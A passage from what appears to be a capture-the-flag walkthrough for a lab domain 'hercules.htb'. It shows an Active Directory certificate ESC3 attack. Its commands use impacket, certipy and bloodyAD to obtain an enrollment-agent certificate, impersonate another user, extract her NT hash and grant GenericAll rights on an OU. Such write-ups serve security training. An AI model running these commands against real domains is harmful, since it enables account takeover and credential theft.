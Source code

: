 **Step A: Request Enrollment Agent Certificate**

```
# Get TGT for fernando.r
impacket-getTGT 'HERCULES.HTB/fernando.r:Pwned123!' -dc-ip 10.10.11.91
export KRB5CCNAME=$(pwd)/fernando.r.ccache

# Request Enrollment Agent certificate
certipy-ad req -u FERNANDO.R@hercules.htb -target dc.hercules.htb \
  -ca 'CA-HERCULES' -template 'EnrollmentAgent' -k -dc-ip 10.10.11.91

# Output: fernando.r.pfx
```

**Step B: Request Certificate on Behalf of ashley.b**

```
# ESC3 attack - impersonate ashley.b
certipy-ad req -u FERNANDO.R@hercules.htb -target dc.hercules.htb \
  -ca 'CA-HERCULES' -template 'UserSignature' -k -dc-ip 10.10.11.91 \
  -pfx 'fernando.r.pfx' -on-behalf-of 'hercules\ASHLEY.B' \
  -dc-host dc.hercules.htb

# If above fails with RPC error, retrieve manually:
# Request ID will be shown (e.g., 6)
certipy-ad req -u FERNANDO.R@hercules.htb -target dc.hercules.htb \
  -ca 'CA-HERCULES' -retrieve 6 -k -dc-ip 10.10.11.91

# Output: ashley.b.pfx
```

**Step C: Authenticate as ashley.b**

```
# Get TGT and NT hash from certificate
certipy-ad auth -pfx ashley.b.pfx -dc-ip 10.10.11.91

# Output:
# - ashley.b.ccache
# - NT hash for ashley.b
```

**Learning Point:** ESC3 is critical because:
- Enrollment agents can request certificates for other users
- Certificate authentication bypasses password requirements
- The attack chain allows full domain compromise from a single misconfigured template

### Step 7.4: Grant IT Support Permissions

```
# Switch to auditor ticket
export KRB5CCNAME=$(pwd)/auditor.ccache

# Grant IT Support group permissions
bloodyAD -d hercules.htb -u auditor -k --host dc.hercules.htb \
  add genericAll "OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb" "IT Support"
```
